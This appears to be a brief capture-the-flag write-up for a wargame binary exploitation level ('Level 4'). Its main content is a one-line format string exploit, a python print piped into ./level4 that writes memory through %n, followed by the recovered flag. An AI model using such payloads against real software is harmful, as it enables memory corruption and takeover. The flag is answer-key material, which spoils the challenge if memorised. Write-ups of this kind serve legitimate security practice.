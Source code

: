# Level 4

Same as previous exercices with more bytes

```bash
python -c 'print "\x10\x98\x04\x08% 16930112x%12$n"' | ./level4
```

**Flag:** `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
